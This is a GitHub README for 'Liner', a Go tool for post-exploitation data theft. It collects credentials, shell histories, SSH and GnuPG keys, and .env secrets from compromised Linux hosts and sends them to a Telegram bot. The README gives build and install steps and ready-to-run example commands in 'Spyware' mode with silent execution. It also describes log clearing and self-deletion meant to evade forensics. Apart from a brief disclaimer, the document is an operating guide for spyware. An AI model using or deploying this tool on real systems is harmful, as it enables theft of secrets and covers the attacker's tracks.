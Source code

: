 ##  Liner - Post-Exploitation Data Exfiltration Tool via Telegram

**Liner** is a lightweight post-exploitation utility designed for rapid data collection and exfiltration from compromised Linux systems.  
It targets sensitive artifacts such as credentials, session tokens, private keys, and developer secrets, packaging and transferring them securely via Telegram bot API.

Built in Go, it supports silent operation, automated cleanup, and concurrent file transmission — making it ideal for stealthy, fast, and low-noise data exfiltration in red team operations or adversary simulation.

> ⚠️ **Disclaimer:** This tool is intended **strictly for educational and authorized security testing**. Unauthorized use is illegal and unethical.

---

### 🔧 Features

- Collects a wide range of sensitive files:
  - Stored credentials, shell histories, SSH keys, GnuPG data, API tokens, `.env` secrets, and more.
- Generates full directory tree structure for reconnaissance and documentation purposes.
- Compresses and optionally splits collected data for optimized transfer.
- Sends exfiltrated data directly to a specified Telegram chat using a bot token.
- Supports:
  - **Silent execution** (`--silent`) to suppress terminal output.
  - **Self-deletion** of the binary after successful execution to minimize footprint.
  - **Concurrent uploading** to accelerate data transmission under rate-limited environments.

---

### 📦 Requirements

Install required packages:

```bash
sudo apt install zip coreutils tree
```

Also required:

- A **Telegram bot token** ([@BotFather](https://t.me/BotFather))
- A **Telegram chat ID** (user or group)

---

### 🚀 Installation

```bash
git clone https://github.com/Nowafen/liner.git
cd liner
go build -v -o liner ./cmd

mv liner /usr/bin
chmod +x /usr/bin/liner

```

Verify installation:

```bash
liner --version
# Output: Liner version: x.x
```

---

### 🛠️ Usage

Basic syntax:

```bash
liner --mode Spyware --dump <TYPE> --token <TOKEN> --id <CHAT_ID> [options]
```

#### Required Flags

- `--mode Spyware` (only mode supported for now)
- `--dump`:  
  - `Credentials`: .git-credentials, keyrings  
  - `Password`: .bash_history, .zsh_history  
  - `Session`: .ssh, .gnupg  
  - `privateDATA`: *.env, *.pem, secrets  
  - `all`: Everything above
- `--token`: Your Telegram bot token
- `--id`: Telegram chat ID

#### Optional Flags

- `--silent`: Suppress all output
- `--version`: Show current version
- `--update`: Check for new version
- `--help`: Show help message

---

### 💡 Examples

```bash
sudo liner --mode Spyware --dump Password --token <BOT_TOKEN> --id <CHAT_ID>
```

```bash
sudo liner --mode Spyware --dump all --token <BOT_TOKEN> --id <CHAT_ID> --silent
```

---

### 🧠 How It Works

1. **Environment Validation:**  
   Ensures the target system is Linux-based before proceeding.

2. **Targeted Data Collection:**  
   Retrieves files based on the selected `--dump` category (e.g., credentials, sessions, secrets).

3. **Filesystem Mapping:**  
   Executes a recursive directory scan using `tree` to provide structural context.

4. **Data Packaging:**  
   Archives all collected data into `liner_data.zip`.  
   - If total size exceeds 48MB, archive is split into 25MB chunks for reliable transfer.

5. **Stealth Exfiltration via Telegram:**  
   Sends an initial message, directory map, and zipped payload to the configured Telegram chat using the bot API.

6. **Cleanup & Evasion:**  
   Removes temporary artifacts, clears relevant logs, and optionally self-deletes the binary to minimize forensic traces.

---

### ⚙️ Troubleshooting

- **Upload fails with `429 Too Many Requests` or times out?**  
  Telegram may be throttling API requests. Try reducing the upload concurrency in `core/telegram.go` or increase delay between sends.

- **No data received in chat?**  
  Ensure:
  - You are using a valid `--token` and `--id`
  - The specified `--dump` target contains data
  - Sufficient permissions (`sudo`) are granted

- **Split archive reassembly (receiver side):**

```bash
cat part_* > liner_data.zip
unzip liner_data.zip
```
---

### 👨‍💻 Contributing

Pull requests and issues are welcome. Let’s improve this project together.


### 📜 License

This project is **proprietary and closed-source**.  
All rights reserved © 2025 [MNM]  
Unauthorized copying, distribution, or modification of any part of this codebase is strictly prohibited.

###### For collaboration, contact: [t.me](https://t.me/mnmsec)



##### Developed by [MNM]
##### Uploaded: July 2025

